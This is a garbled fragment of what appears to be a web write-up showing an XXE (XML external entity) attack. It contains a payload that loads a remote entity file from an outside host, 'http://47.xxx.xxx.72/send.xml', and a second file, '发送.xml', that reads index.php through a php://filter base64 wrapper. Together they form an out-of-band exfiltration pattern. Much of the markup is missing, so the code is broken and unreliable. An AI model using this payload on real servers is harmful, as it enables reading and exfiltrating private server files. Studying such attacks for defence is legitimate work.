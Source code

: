 `PHP`

``

    
    
    1   
    2   
    3   
    4   
    5   
    6   
    7  
    

|

    
    
    xml version= "1.0" ?>  
       
    "http://47.xxx.xxx.72/send.xml" >   
    %remote;   
    %全部;   
    %发送;   
    ]>  
      
  
---|---  
  
`  
`

`发送.xml：`

`  
`

``

`PHP`

``

    
    
    1   
    2  
    

|

    
    
    "php://filter/read=convert.base64-encode/resource=index.php" >   
    "" >  
      
  
---|---  
  
`  
`
